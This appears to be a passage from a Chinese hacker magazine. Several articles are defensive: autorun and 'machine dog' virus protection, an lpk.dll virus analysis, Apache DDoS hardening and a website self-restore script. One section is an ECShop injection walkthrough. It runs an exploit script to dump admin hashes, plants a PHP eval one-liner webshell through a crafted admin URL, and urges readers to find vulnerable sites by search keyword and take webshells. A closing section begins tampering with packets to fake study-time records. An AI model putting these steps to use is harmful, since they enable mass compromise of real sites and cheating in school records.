> 小知识：U 盘病毒也叫“autorun 病毒”。用户只需要双击 U 盘（或者硬盘）就会运行病毒，从病毒传播方式来说，autorun 是病毒的一种传播方式，即利用驱动器双击自动播放来达到运行、感染和传播病毒的目的，其特点是病毒会通过复制自身和相应的 autorun.inf 到各硬盘及 U 盘根目录，并且利用 U 盘的便捷和即插即用特点来传播。

图 10 QQKAV 免疫 U 盘病毒

我们来分析一下 autorun.inf 文件里面的内容，下面例 1 是比较老的代码，意思是双击驱动器之后自动运行 1.exe。不过此代码有个不足之处，当用户右键驱动器盘符上按鼠标右键，选择“资源管理器”打开就失效了！不过新的变种弥补了这个不足，代码请看例 2。

```ini
例 1，比较老的代码：
[AutoRun]
open=1.exe
shellexecute=1.exe
shell\Auto\command=1.exe
shell=Auto

例 2，新代码：
[AutoRun]
open=1.exe
shell\open=打开(&O)
shell\open\command=1.exe
shell\open\Default=1
shell\explore=资源管理器(&X)
shell\explore\command=1.exe
```

既然 U 盘病毒危害性这么大，我们肯定要做好防御工作了。其实预防这个病毒也很简单，下面给大家介绍几个方法。

第一种是通过运行 gpedit.msc（组策略）后，依次选择“用户配置”→“管理模板”→“系统”→“关闭自动播放”，如图 8。

第二种可以修改注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoDriveTypeAutoRun` 键值为 16 进制 `bd` 或 `ff`，如图 9。两个值的意义，前者只禁用 U 盘和硬盘自动播放，而保留光盘；后者为全部禁用。

第三种方法可以建立免疫文件，使病毒不能生成 autorun.inf 文件。这里推荐使用 QQKAV，它能分析 autorun.inf 文件要启动的病毒文件，并能智能删除病毒。如上面的例子中，1.exe 为病毒文件，QQKAV 在分析 autorun.inf 之后，再将病毒文件一起删除。它也集成了 U 盘病毒免疫功能，如图 10，由它生成的免疫程序一般删除方法是无法删除的。

> 小知识：建立防止删除文件也很简单，例如在 C 盘下建立一个防止删除的 autorun.inf 文件夹，命令为 `md c:\autorun.inf\免疫文件...\` 即可。删除命令是：`rd c:\autorun.inf`。

- 4、预防网页病毒

> 小知识：网页挂马就是攻击者通过在正常的网页中插入一段代码。浏览者在打开该页面的时候，这段代码被执行，然后下载并运行某木马的服务端程序，进而控制浏览者的主机。

网页挂马是病毒传播的重要途径，特别针对系统存在漏洞的用户，而且现在很多挂马者都利用第三方软件漏洞挂马，典型的有 RealPlayer 播放器漏洞、百度搜霸 ActiveX 控件远程代码执行漏洞、PPStream 堆栈溢出漏洞、暴风影音 2 mps.dll 组件多个缓冲区溢出漏洞等，所以大家预防网页挂马除了打好操作系统补丁之外，还得关注下第三方软件的漏洞。建议大家使用 360 安全卫士补补丁，因为它自带第三方系统漏洞检测。要是你觉得打补丁麻烦的话，还可以选择“畅游巡警”来保护你的上网安全，如图 11。

网吧用户还可以选择网吧版，通过维护通道调用即可，无需安装。这里我建议把 360 安全卫士的网页防火墙功能也开启，因为有些网页木马可以绕过畅游巡警的拦截！

**小知识：** 畅游巡警是一款新理念“网页杀毒软件”，可在不影响你正常浏览的前提下，防范挂马网站、带毒网站、钓鱼欺诈等恶意网站，全方位解决上网中的安全隐患。


### 三、ARP 攻击防御

对于 ARP 的讲解，《黑客手册》杂志中已经很多文章涉及到它，大家可以参考 07 年 9 月份杂志的 86 页，这里我简单提一下防御方法。如果是网吧用户，除了用批处理捆绑之外，还可以使用 360 安全卫士的 ARP 防火墙。鉴于现在 ARP 攻击这么流行，游戏更新软件一般都自带了 ARP 防御功能，并且效果也很好，例如网维大师（如图 12）、迅闪 2008 等等。同时，路由器也需要把客户机绑定一下。至于公司用户，直接使用 360 安全卫士防御就可以了，同时划分 VLAN 和路由器绑定也是防止 ARP 攻击的一个途径！

### 四、穿还原病毒防御

“机器狗”病毒利用网吧普遍未安装杀毒软件的漏洞，通过穿透系统还原软件或硬盘还原卡的方式，在网吧疯狂传播，成为 2007 年网吧业主最头疼的病毒。正是机器狗病毒的出现，人们研发出一种对付机器狗病毒的防火墙——驱动级防火墙，它可以对未知驱动拦截，致使机器狗病毒的驱动文件无法写入系统，这样就不能破坏还原系统了。

驱动防火墙对防御机器狗病毒的意义是很大的，但是有人会说，我先把驱动防火墙干掉，然后再加载病毒驱动不就行了么？


这个方法当然是可行的，正所谓道高一尺，魔高一丈啊！不过到目前为止，驱动防火墙还是很有效果的，强烈建议大家使用，这里我介绍几款驱动防火墙。

第一个是网维大师驱动防火墙，如图 13，无论是什么驱动文件都会被拦截，所以驱动防火墙都带有白名单功能，只要你把可信任的驱动名字写进白名单就可以不拦截了，如图 14。

安装了网维大师驱动防火墙后，客户机也会显示拦截结果的，如图 15。若发现有一个正常的游戏或软件不能使用时，请查看本列表中是否有被阻止的驱动，若有被阻止的驱动，请到服务端上找到对应机器的驱动拦截记录，将其“加入本地特征库”。加好后，在客户机上点击“重新获取策略”刷新客户机本地的驱动特征库，这时再运行游戏或软件，就可以看到驱动不再会被阻止。


第二个驱动防火墙就是 MAX 工作室的“Max 网吧安全卫士”了，在我印象中，驱动防火墙概念是它最先提出的，后期其它游戏更新软件才有驱动防火墙功能的。既然是先行者，我们来看看它的设置吧！下载地址为：http://pzz.cn/soft/maxvir0911g.rar。

先来看看客户端吧，里面有 sercon.ini 和 Setup.exe 两个文件，如图 16，我们将 Setup.exe 和 sercon.ini 放在服务器的共享目录中，然后用记事本打开 sercon.ini，在其中的“ServerIP=”后填入您的 Max 网吧安全卫士服务端 IP 地址即可。

## 安全导航

接着就是在客户机调用 Setup.exe 了，我们来看一下服务端，如图 17，界面很明了，设置也很简单。驱动防火墙还有很多，这里就不再介绍了。

接下来再给大家介绍一下本人采用的机器狗防御程序吧。驱动防火墙还没有出现的时候，本人就是用这个方法防御机器狗的，至今仍然有网吧在采用这个方法，就是用 QQKAV 开机杀毒的核心程序，具体原理是这样的：

> 机器狗病毒穿透还原之后会修改 explorer.exe 或者 userinit.exe 文件，通过这些文件再下载其它病毒。既然是通过这些文件下载病毒的，我们在进入系统之前把这些被感染的文件替换掉，就可以防止病毒运行了！

但是怎么才能在进入系统之前把这些文件替换掉呢？相信大家都用过瑞星杀毒软件的开机杀毒功能吧，在进入系统之前先进行扫描，扫毒之后再启动系统，这样清除病毒效果是非常好的，所以我们这里也利用这个技术实现防御机器狗病毒，在进入系统之前把病毒文件替换掉。

要我自己写这样的程序，目前还是没有这个可能。由于我知道 QQKAV 有这个开机杀毒功能，就建议嘻哥（QQKAV 的作者）利用这个程序防御机器狗病毒了，于是嘻哥改进了一下这个核心程序之后，通过我自己再完善一下，就弄出了这个“剑盟机器狗防御程序”。

本程序一共 3 个文件，如图 18，wuqing.exe 为核心程序、“花都剑盟机器狗防御程序 7 月 4 日新版.exe”为安装程序、wuqing.log 为配置文件。

安装本程序只需要运行“花都剑盟机器狗防御程序 7 月 4 日新版.exe”即可，这 3 个文件一定要放在同一个目录中。至于 wuqing.log 文件，你一般不需要修改，我已经设置好了，都是自己收集的病毒感染文件和替换目录！

我们再来看看 wuqing.log 的配置用法，如图 19：例如 `C:\WINDOWS\system32\drivers\etc\wuqing\user32.dll*C:\Windows\System32\user32.dll`，这句的意思是将 `C:\WINDOWS\system32\drivers\etc\wuqing\user32.dll` 文件替换 `C:\Windows\System32\user32.dll`，就是将病毒文件替换掉！这个星号就是替换的意思，软件默认的！

还有一个用法就是直接写文件路径进 wuqing.log 文件，例如我在 wuqing.log 文件写入 `C:\Windows\123.exe`，意思就是把 `C:\Windows\123.exe` 删除掉。如果有些朋友感染了病毒，也可以用这个语句来开机删除病毒。成功安装此程序后，在进入系统之前会出现如图 20 的界面。

好了，基本就说到这里了。值得一提的是，2008 版的迅闪还原软件会把本软件的功能破坏掉，如果安装了迅闪还原 2008 的朋友就不能使用此软件了。我还没有联系官方解决，以上的方法足够大家防御机器狗病毒了。


```text
C:\WINDOWS\system32\drivers\etc\wuqing\explorer.exe*C:\WINDOWS\explorer.exe
C:\WINDOWS\system32\drivers\etc\wuqing\ctfmon.exe*C:\Windows\System32\ctfmon.exe
C:\WINDOWS\system32\drivers\etc\wuqing\userinit.exe*C:\Windows\system32\userinit.exe
C:\WINDOWS\system32\drivers\etc\wuqing\2explorer.exe.exe*C:\WINDOWS\system32\dllcache\explorer.exe
C:\WINDOWS\system32\drivers\etc\wuqing\attrib.exe*C:\Windows\System32\attrib.exe
C:\WINDOWS\system32\drivers\etc\wuqing\cacls.exe*C:\Windows\System32\cacls.exe
C:\WINDOWS\system32\drivers\etc\wuqing\msdtc.exe*C:\Windows\system32\msdtc.exe
C:\WINDOWS\system32\drivers\etc\wuqing\csrss.exe*C:\Windows\system32\csrss.exe
C:\WINDOWS\system32\drivers\etc\wuqing\lsass.exe*C:\Windows\system32\lsass.exe
C:\WINDOWS\system32\drivers\etc\wuqing\services.exe*C:\Windows\system32\services.exe
C:\WINDOWS\system32\drivers\etc\wuqing\svchost.exe*C:\Windows\system32\svchost.exe
C:\WINDOWS\system32\drivers\etc\wuqing\winlogon.exe*C:\Windows\system32\winlogon.exe
C:\WINDOWS\system32\drivers\etc\wuqing\taskmgr.exe*C:\Windows\system32\taskmgr.exe
C:\WINDOWS\system32\drivers\etc\wuqing\wuauclt.exe*C:\Windows\system32\wuauclt.exe
C:\WINDOWS\system32\drivers\etc\wuqing\internat.exe*C:\Windows\system32\internat.exe
C:\WINDOWS\system32\drivers\etc\wuqing\spoolsv.exe*C:\Windows\system32\spoolsv.exe
C:\WINDOWS\system32\drivers\etc\wuqing\conime.exe*C:\Windows\system32\conime.exe
C:\WINDOWS\system32\drivers\etc\wuqing\user32.dll*C:\Windows\system32\user32.dll
C:\WINDOWS\system32\drivers\etc\wuqing\wfc4u.dll*C:\Windows\system32\wfc4u.dll
```


其实安全防御方法还有很多，具体就看大家怎么领悟了。要做好安全防御，必定要经常关注网络安全，了解病毒动态，同时也要多动动脑袋才行，经常吊在一棵树上是会再死的。

> ［文中软件或源码在光盘中有提供］

**编辑点评：** 本文很详细地为大家介绍了局域网安全防御的技巧，网吧管理员可以参考一下其中的方法。

## lpk.dll 病毒群的查杀

通过本文了解对病毒的简单分析及查杀。

前几天，一位 mm 同学的电脑中毒了，她说电脑上的很多文件夹都无法删除，总提示程序正在被使用，还指定要我去给她电脑杀毒。mm 发话了，我能不帮吗？于是就开始了这次杀毒之旅。

经过一番查找，发现 mm 电脑上凡含有 .exe 文件的文件夹都无法删除，把“资源管理器”（工具→文件夹选项→查看）中的“隐藏受保护的操作系统文件”的对勾去掉后，发现文件夹里都有一个属性为隐藏的 Lpk.dll 文件。到网上搜索得知，360 顽固木马查杀工具可查杀该病毒，马上下载安装运行，但结果是病毒依然存在。于是我只能从 lpk.dll 文件入手，看看这个病毒文件有没有什么可用的信息。

### 一、分析

先对 lpk.dll 分析，查壳显示的信息是 UPX 0.89.6 - 1.02 / 1.05 - 2.90 -> Markus & Laszl，如图 1。


```text
www.powerise.com.cn
uppic/lb/cs.asp
www.jznet.com
cl.asp
www.seleader.com
cn.asp
www.fds432fsat4320s.com
css/reg.asp
info.cnbb.com.cn
aid/a.asp
www.wen-chuan512.cn
dz.asp
www.netbar114.cn
wt.asp
```

用 ESP 定律快速完整脱壳，脱壳后显示的信息是 Microsoft Visual C++ 6.0，如图 2。

下面使用 OllyDbg 对病毒进行反汇编，将脱壳后的 Lpk_unpacked.dll 病毒文件载入 OllyDbg，使用“超级字符串参考”插件选择“查找 ASC 码”来到“字符串参考”窗口，发现几个傻帽站点，如图 3。

经查看，我发现这些站点已经被木马传播者入侵并挂马了，这里就不深入讨论了。顺着代码往下看，明白了病毒运行后的行为：

- 1. 该病毒运行后，自动搜索电脑中的 .exe 文件，如图 4，并将 Usp10.dll 拷贝到 .exe 所在目录下。当我们运行该文件夹的 .exe 文件后，病毒就被调用而“复活”。


- 2. 病毒搜索 .rar 压缩包并将 Usp10.dll 文件添加到含有 .exe 文件的压缩包里，如图 5。当我们解压 .rar 后，病毒就被调用而“复活”。


- 3. 添加注册表启动项，通过注册表来运行病毒文件，让病毒跟随电脑启动而启动，如图 6。

在分析的过程中，看到除 Lpk.dll 病毒外，还有 Usp10.dll、Thumbss.db、Thumbs.db 这几个相关文件，如图 7。

### 二、查杀

我经过几次分析，总结出了查杀方法。首先进入安全模式，请大家严格按照下列方法与步骤进行查杀。

- 1. 在资源管理器中，依次选择“工具”→“文件夹选项”→“查看”，把“隐藏受保护的操作系统文件”的对勾去掉，并选取“显示所有文件和文件夹”，如图 8、图 9！

- 2. 进入安全模式后记得不要运行任何可执行程序，分别直接全盘搜索 lpk.dll、usp10.dll、Thumbss.db、Thumbs.db，把所有搜索到的文件使用键盘 Ctrl+A 全选后按鼠标右键选择“全部删除”（system32 目录下的除外）！

- 3. 在“运行”中输入 regedit 后回车打开注册表编辑器，分别查找包含 lpk.dll、Usp10.dll 的键和项，然后删除（system32 目录下的除外）。

- 4. 检测你电脑上所有的压缩包，打开查看是不是含有 lpk.dll、usp10.dll、Thumbss.db、Thumbs.db 文件，并将其全部删除。


- 5. 重启电脑。

### 三、总结

本文主要是介绍查杀病毒的方法，关于病毒，我只简单分析了下下，希望对大家有所帮助。如果大家有好的查杀方法，希望能到 nohack 论坛一起交流，文章有不对之处请高手多多指教。

【文章中的工具已放光盘中】

> 编辑点评：对于病毒查杀，菜鸟们只要学会参与观察和推理，根据各种信息来整理出与病毒相关的蛛丝马迹，然后对症下药即可。

## 强化 Apache 消减 DDoS 攻击

□ riverhead

从本文你可以学到如何强化 Apache 消减 DDoS 攻击。

很多系统工程师都遇到过自己管理的 Web 服务器被 DDoS 攻击，偶尔的流量暴涨也就算了，但三天两头被别人这么搞，肯定是火大。那我们除了真人 PK 和报警、找诉等等方法外，有没有其它办法可以保护我们的 Web 服务器呢？

如果你有硬件防火墙，那是最好！如果没有，而且又只是单用 Apache，那么可以这样做：

- 一、下一个叫 mod_evasive 的安装包回来，这是 Apache 下面使用的模块，可以有效缓解 DDoS 给 Web 服务器带来的压力，可以防止同一个 IP 对相同 URI 发出的大量请求。

mod_evasive 的官方地址：**http://www.zdziarski.com/projects/mod_evasive**

- 二、解压及编译 mod_evasive

安装 mod_evasive 之前，你要先保证服务器上已经装了 Apache（httpd）服务器软件包，还要安装 httpd-devel 或 apache-dev。

- 1、在指令模式解压及编译 mod_evasive，如图 1。

```text
tar zxvf mod_evasive_1.10.1.tar.gz
cd mod_evasive/
apxs -aia mod_evasive20.c
```


以上的 apxs 会放在 Apache 的 bin 目录内，如果 Apache 版本是 1.3 的话，指令要改为：**apxs -cia mod_evasive.c**

apxs 是一个为 Apache 超文本传输协议（HTTP）服务器编译安装扩展模块的工具，用于编译一个或多个源程序或目标代码文件为动态共享对象，使之可以用 mod_so 中的 LoadModule 指令在运行时加载到 Apache 服务器中。因此，要使用这个扩展机制，你的平台必须支持 DSO 特性，而且 Apache 的 httpd 必须内建了 mod_so 模块。apxs 工具能自动探测是否具备这样的条件。

你也可以自己用命令手动探测，命令为：**$ httpd -l**，如图 2。

该命令的输出列表中应该有 mod_so 模块，如果所有这些条件均已具备，则可以很容易地借助 apxs 安装你自己的 DSO 模块以扩展 Apache 服务器的功能。

```text
[root@nohack ~]# httpd -l
Compiled in modules:
 core.c
 prefork.c
 http_core.c
 mod_so.c
```


- 2、安装好 mod_evasive 后，便要修改 httpd.conf 的内容。

- 三、打开 httpd.conf 文件，加入以下内容：

```text
DOSHashTableSize 3097
DOSPageCount 5
DOSSiteCount 100
DOSPageInterval 2
DOSSiteInterval 2
DOSBlockingPeriod 10
DOSBlockingPeriod 600
```

**DOSHashTableSize**：这是占用内存的大小，如果服务器比较繁忙，这个数值要设定得大一点。

**DOSPageCount**：同一 IP 在一个时段内可以存取同一页面的次数，超过会被禁止。

**DOSSiteCount**：同一 IP 在一个网站内可以占用多少 Object，超过会被禁止。

**DOSPageInterval**：DOSPageCount 的时段设定，以秒为单位。

**DOSSiteInterval**：DOSSiteCount 的时间设定，以秒为单位。

**DOSBlockingPeriod**：当发现疑似攻击后，使用者会收到 403 Forbidden 反馈，这是设定封锁的时间，以秒为单位。

- 四、最后重新启动 Apache 即可。

红帽系列的系统用以下命令，如图 3：

```text
#### /etc/init.d/httpd restart
或者
#### /etc/init.d/apache restart
```


Ubuntu 系列的系统用以下命令：

```text
sudo /etc/init.d/apache2 restart
或者
cd /etc/init.d
sudo apache2 -k restart
```

- 五、重启完毕，你的 Apache 就处于强化后的状态了，我们可以按照要求自行修改防 DD 的参数。如果你会 Loadrunner 之类的测试工具，不妨就马上来看一下效果吧。

> 编辑点评：该软件对于防御论坛的 CC 进攻也许有一定的效果，不过，估计也会占用系统资源！如果你是站长，不妨试一试。

## 阻止网站挂马的实用技术

图 菜客

从本文可以学到利用网站的“一键还原”阻止页面挂马危害。

前一段时间朋友的网站被挂了马，因为发现不及时，造成了很大的损失，流量骤跌！气得那哥们就想拿着墙撞头了，呵呵。这里还是希望各位黑友手下留情啊，当站长的都不容易。

防止网站挂马的方法并不多，效果好的却更是屈指可数了。比较经典的方法是在 css 文件里禁用 iframe 的使用，但这有可能会影响到用户的使用，而且不能防止 script 挂马。而天下挂马方式又何止 script 和 iframe？今天我将给大家一种防挂马的方法，理论上适用于所有网站，但由于工具的限制，目前只能直接用于 asp 网站。

### 一、一键还原的“核心技术”

操作系统有一键还原，整理程序也不例外。这里向大家介绍一个 ASP 在线解压工具，操作极其简单，界面如图 1。把整理程序放进某个文件夹里，点击工具右上角的按钮选择这个文件夹，然后点击 “browse” 选择要生成的安装包的存放路径（随便指定），一切都选择好后，点击 “MAKE”，如果成功打包的话，稍候会弹出提示 “ok” 的对话框，此时在目标目录生成一个 dat 文件和 setup.asp。将这两个文件一并 FTP 到 asp 空间（需要支持 FSO），注意一定要把它们放到同一个目录下，用浏览器访问 setup.asp，这时 dat 包被解开，其内容将释放到当前目录中，保持打包前的目录树结构。如果解包成功，将向浏览器返回 “OK! 安装成功！” 的信息。


图 1.

我发现在解包的过程中，如果在目标文件夹遇到同名文件则一律用新文件替换，也就是说不管我的网站被挂了多少马，只要我一访问 setup.asp 时，一切都会回到建站之初的状态，这就是我的“一键还原”理论。下面我们就来详细地操作一下“一键还原”。

准备一套我们网站上的源码，如果带有 access 数据库的话删除存放数据库的文件夹（数据库肯定不能被还原），然后删除 uploadfiles 文件夹（存放上传文件的），删除所有图片文件夹，这些文件夹里面往往没有能够挂马的地方，删除它们可以大大节约一键恢复时的系统资源。

接着，参考前面的步骤将整理好的网站源码打包，上传到 asp 空间，这时当我们访问 setup.asp，网站代码将被还原。

简单研究了一下打包原理，该工具并没有将源文件重新编码，而是简单地依次追加到一起，类似于命令行中的 `copy 1.asp+2.mdb+3.jpg 4.dat`，但其中添加了用于识别各个文件内容的字符串。

知道了原理，熟悉其它脚本语言的朋友也可以编写类似的打包工具，让我们的这种防挂马的方法适用范围更加广泛。

### 二、参考方法

在我们已经打包生成 setup.asp 文件后，可以在网站的“数据库连接文件”（一般为 conn.asp 的形式）中增加如下代码：

```asp
<%
Server.Execute "setup.asp"
%>
```

因为所有文件都会包含 conn 文件，所以用户每浏览一次页面，整站就会还原一次，这样可以把受挂马影响的用户数量控制在一个以内。然而这样做的代价是 CPU 占用率的居高不下，其结果会得不偿失，我们可以用一种更好的方法控制资源的过度消耗。

将以上代码改成如下所示：

```asp
<%
pvg=10    '此为参考值，用户可以设定此值
if Application("pv")="" then
    Application.Lock
    Application("pv")=1
    Application.Unlock
end if    '初始化 Application 变量
Application("pv")=Application("pv")+1    '此文件每执行一次，变量 Application("pv") 就会加 1
if 0=(Application("pv") mod pvg) then
    Server.Execute "setup.asp"
End if    '即页面每到浏览 pvg 次（10 次）执行一次还原
%>
```

Application 变量是一个服务器级别的变量，只要 IIS 不关闭，这个变量就不会被释放，而网站每次被浏览，Application("pv") 就会加 1，反映的是网站的 PV 值（page view）。PV 每增加 10（由变量 pvg 指定）就会执行一次还原。

与最前面的方法相比，系统资源节省了 10 倍，但受影响的用户最大范围也增加了十倍（10 人），两者为此消彼长之关系，鱼与熊掌不可兼得啊。但我们可以改进技术，降低不利因素，争取找到鱼与熊掌之间的平衡点，这大概就是自古以来中国人所崇尚的中庸之道吧。

### 三、实用方法

在前面的方法中，不管网站有没有挂马都被还原，不免显得机械，而且白白浪费了系统的资源。我们不如先检测自身文件代码是否改变，如果改变了，然后进行“一键还原”。既然涉及到对比，那就要有个“参照物”，我们把网站的源码复制到文件夹 backup 中，文件名保持不变，只是将扩展名 asp 全部改为 txt，因为不管是病毒还是 webshell 批量挂马，都不会将恶意代码写到 txt 里，这些 txt 就是参照物。

下面先来看看代码，如下所示：

```asp
<%
pvg=10
if Application("pv")="" then
    Application.Lock
    Application("pv")=1
    Application.Unlock
end if
Application("pv")=Application("pv")+1
if 0=(Application("pv") mod pvg) then    '每隔 pvg 次（10 次），执行下面检测代码
    dim filename_asp, filename_txt, filename_all, filestr_asp, filestr_txt
``````asp
Filename_asp="index.asp"  ' 这里假设当前文件是 index.asp
Filename=mid(Filename_asp,1,instr(1,Filename_asp,".")-1)
set file=server.createobject("Scripting.FileSystemObject")
set myread=file.opentextfile(replace(server.mappath("."),"","")&filename_asp)   ' 创建一个 FSO 对象读取当前文件

do while not myread.atendofstream
filestr_asp=filestr_asp&myread.readline   ' 将该文件读入一个字符串
loop
filename_txt=filename&".txt"
response.write filename_txt
set file=server.createobject("Scripting.FileSystemObject")
set myread=file.opentextfile(replace(server.mappath("."),"","")&"\backup\"&filename_txt)   ' 注意备份文件与 backup 文件夹的相对位置

do while not myread.atendofstream
filestr_txt=filestr_txt&myread.readline   ' 将参照文件读入一个字符串
loop
if len(filestr_txt)<>len(filestr_asp) then   ' 只检测当前文件与参照文件字符串长度是否相等，假如不相等，说明 asp 被修改，则执行下面语句
    server.execute "setup.asp"   ' 执行 setup.asp 文件，恢复网站，这里注意 setup.asp 与当前文件 index.asp 的相对位置
    response.write("请求失败，请刷新当前页面")   ' 当然也可以直接输出刷新的 javascript
    response.end   ' 终止代码执行，以防后面的恶意代码输出到浏览器
end if
%>
```

大家一定要将上述代码添加到每个 asp 文件之中，但是要根据每个文件的具体情况改变上述代码的三个部分：

- 1. 变量 Filename_asp 的值是当前 asp 文件的文件全名，如果上述代码插入到 conn.asp，则将该变量赋值为 conn.asp。
- 2. 在读取参照文件的时候要注意当前 asp 文件与 backup 文件夹的相对位置。如果 backup 在上一级目录，则要将 "\backup\" 改为 "..\backup\"。
- 3. 执行 setup.asp 的时候依然要修改相对位置。

这一切都做完后，将其复制来制作 txt 参照文件，要注意逻辑顺序。

该脚本与方法一相比节省了较大的系统资源，但频繁地调用 FSO 还是会消耗不少资源的，所以大家要根据自己站点的流量、脚本安全情况，以及服务器的安全配置和硬件情况等因素合理地设置 pvg 值，以求中庸之道。

### 四、测试实践

下面我们测试一下这种方法是否奏效。为了方便，我们将 pvg 设为 2，把恶意代码 `<iframe src="http://www.baidu.com"/>` 追加到文件末尾。浏览了一下，如图 2，可见第一个用户受到了恶意代码的影响，此时 pv 值是 1。

刷新一下，pv 为 2，变成 pvg 的整数倍，应当检测文件长度，出现意料之中的错误输出，输出的 html 代码没有恶意代码，第二个用户躲过一劫，如图 3。

再次刷新页面依然正常，如图 4，至此网站恢复正常！这种方法可以有效地防止 webshell 批量挂马以及病毒挂马和单文件挂马，但倘若黑客修改或删除我们的备份，这种方法便失效了。因此所有防止网站挂马的方法都只是亡羊补牢式的最后挣扎，要想真正安全，还是要把心思放到站点的脚本安全和服务器安全上去。

> **编辑点评：**
> 不仅电脑系统可以一键还原，网站也是可以的，作者给我们带来了一个阻止网站被挂马的方法，值得一试。不过这里的方法很有局限性，也算是作者抛砖引玉吧，欢迎更多的读者来这里发表自己的独立见解。


## ECShop 注射漏洞
### 批量拿 webshell

原点言语：

我来吵吵一下，肉鸡栏目似乎总是伴随着漏洞，如果读者够细心就会发现这样的问题，其实不然。能够发现漏洞的人毕竟是少数，并不一定非要发现了啥漏洞才写，以为只有这样的才能写。其实我们大可以把心思放宽，同样的一个已知漏洞，但利用得更巧妙、更灵活，这样的文章我们同样是很欢迎的。

## 从本文你可以学到：

ECShop 漏洞的利用

继 ShopEx 不久前爆出漏洞后，又一个用得比较多的网店系统 ECShop 也爆出了注射漏洞。成功利用该漏洞，可以很轻松地拿到 webshell，受影响的版本为 2.6.1 以及以下的所有版本。关于漏洞的分析我就不介绍了，有兴趣的可以参看“鬼仔 Blog”上的相关文章，地址为：http://huaidan.org/archives/2946.html，这里我们只说利用该漏洞拿 webshell。

要利用此漏洞需要一个 PHP 环境，我是用 AppServ 快速搭建的。为了避免不必要的麻烦，我在虚拟机里安装了存在漏洞的 ECShop_V2.6.1_GBK 版进行漏洞利用演示。把漏洞利用程序 exp.php 复制到 php.exe 所在的目录下，在命令行下切换到 php.exe 所在的目录，输入：`php exp.php 127.0.0.1 /ecshop/`，就爆出了管理员的用户名和密码，只是密码是经过 MD5 加密的，如图 1。

其中 127.0.0.1 可以是网站的域名，/ecshop/ 是 ECShop 安装的目录，安装在网站根目录下的话直接输入“/”就好了，比如 `php exp.php www.xxx.com /`。

当破解出来管理员密码后，如果能成功破解，就可以进去后台拿 webshell 了。后台默认目录为 admin，登录后在 ECShop 的 admin 目录后加上如下内容：`integrate.php?act=sync&del_list=<?php%20eval($_POST[cmd])?>`，如 `http://127.0.0.1/ecshop/admin/integrate.php?act=sync&del_list=<?php%20eval($_POST[cmd])?>`，用浏览器访问后就会在 ECShop 的 data 目录下的 integrate_log.php 文件中插入 php 一句话。接着用 lanker 一句话 PHP 后门客户端连接 `http://127.0.0.1/ecshop/data/integrate_log.php`，得到小马，如图 2。

有了小马，自然是传个大马上去，成功拿到 webshell，如图 3。

在网上还看到一种拿 webshell 的方法，登录 ECShop 的后台并选择“模板管理”，再选择“库项目管理”，接着选择 myship.lbi，在里面插入一句话。连接 ECShop 根目录下的 myship.php，我这里是连接 http://127.0.0.1/ecshop/myship.php，也能得到 webshell，如图 4、图 5。

在网络上，利用关键字 “Powered by ECShop v2.6.1” 可以搜索到很多存在这个漏洞的网站，大家快去拿 webshell 吧。顺便提醒大家一句，拿 webshell 的时候不要搞破坏啊。

> 编辑点评：
> 这类稿件一般没有什么好点评的，文章中作者说的用 Janker 的一句话讲小马，然后再转大马，这个说法以及这个观念我不是太赞同。就像 lcx 老说的“为什么一定要先传个洋的一句话再传大马呢？”，这里也一样，一句话不是小马，功能很强大的，只是你不习惯而已。并且一句话的隐藏性也是最好的，因此这里寥寥几句。

【文章中涉及到的动画以及相关代码和工具已收录于本期光盘中】


## 数据包也疯狂（五）

首语：

不得不说，现在人们的安全意识是越来越高了，一路走过来的老前辈们更是深有感触吧？从当年会用垃圾邮件塞个邮箱就被人崇拜的王炸技，到现在跑个几天几夜也跑不出一个 MD5，真不知道是该高兴还是该难过。防火墙越来越强，小黑也越来越辛苦，还是要多充点儿电啊。

## 从本文您可以学到：

数据包操作的实际应用

接着上期的内容，本期通过一个封包修改实例对前四篇文章提到的知识进行综合利用。

目标系统是一套 xxx 学习系统，这套系统功能强大，学习的方法很是创新，我认为如果认真点击做完它的确实可以有效地提升英语水平。功能强大，目的也是好的，这两点不批评它。但是在网络通信加密方面做得就很差了，很不应该地采用了明文传输数据包，如果程序员能够更多地考虑安全问题这一块的话，这套系统会更加安全，也会被更广泛地使用。

**本文提及到的内容仅供学习数据包之用，如果有同学正好使用的是这套系统，请不要对号入座，还是自己踏踏实实地去做题（本人就是自己一点点做的），否则后果自负。**

工欲善其事，必先利其器。拿上工盘准备好相关工具：WPE、Ethereal、WinPcap 3.0、WSE、AMPSERV、加速齿轮等。

## 数据包分析

首先在机房电脑上安装 Ethereal 和 WinPcap 驱动，安装过程没有什么特别的，一路 next 即可。安装完毕后在桌面找到并且打开 Ethereal，新建捕获，过滤 “http” 数据包（如果有人对这里有疑问请回顾上期）。接着运行 xxx 英语，填入学号密码登录，做完一个单元后停止 Ethereal 的数据包捕获，保存数据包。接着就可以打开保存的数据包开始分析了，我选了一个具有代表性的数据包，相关信息如下：

```http
POST /WebService/Service.asmx HTTP/1.1
SOAPAction: "http://www.open.com.cn/SetLearnTime"
Content-Type: text/xml; charset="UTF-8"
User-Agent: SOAP Toolkit 3.0
Host: 192.168.0.5
Content-Length: 697
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASP.NET_SessionId=...
```

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<SOAP-ENV:Envelope ...>
  <SOAP-ENV:Body>
    <SetLearnTime ...>
      <userid ...>2210</userid>
      <SectionID ...>3A1B</SectionID>
      <beginTime ...>2009-3-25 16.57.10</beginTime>
      <endTime ...>2009-3-25 17:02:37</endTime>
    </SetLearnTime>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<SOAP-ENV:Envelope ...>
  <SOAP-ENV:Body>
    <GetServerTime xmlns="http://www.open.com.cn/"/>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

很明显，服务器与客户端通信是明文传输的，这种关系学生成绩的系统采用此种方式风险极大，接着看下去便知道了。

提交方法采用的是 POST，动作是 SetLearnTime，也就是设置学习进度。在这个数据包中包含了学号 userid、课程章节 SectionID、开始做的时间 beginTime 以及完成时间 endTime 等信息。

- 1. GetServerTime，获取服务器当前时间
- 2. SetLearnTime，提交本小节的学习时间，起始时间由上上次 GetServerTime 返回，结束时间是上次 GetServerTime 返回。服务器接到缓存时间请求包后返回了 SetLearnTimeResult true 来确认学习时间已记录
- 3. SetLearnProcess，提交学习进度，也就是示例的那个数据包
- 4. GetSectionBeginLearnTime，请求返回章节开始时间
- 5. GetSectionEndLearnTime，请求返回章节结束时间
- 6. GetAllLearnTime，取得总计学习时间，单位秒
